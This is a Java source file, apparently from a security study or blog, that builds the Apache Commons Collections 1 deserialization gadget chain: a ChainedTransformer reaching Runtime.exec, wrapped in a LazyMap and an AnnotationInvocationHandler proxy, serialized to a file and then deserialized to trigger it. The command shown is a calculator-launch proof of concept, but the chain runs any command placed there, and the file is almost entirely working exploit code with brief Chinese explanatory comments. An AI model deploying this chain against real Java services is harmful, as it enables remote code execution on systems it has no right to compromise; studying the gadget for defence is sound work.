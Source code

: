 ```java
/**
 * Created by dotast on 2022/9/19 22:00
 */
public class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        CommonsCollections1 transformerTest = new CommonsCollections1();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        InvocationHandler mapHandler = (InvocationHandler) constructor.newInstance(Override.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, mapHandler);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(proxyMap);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}

```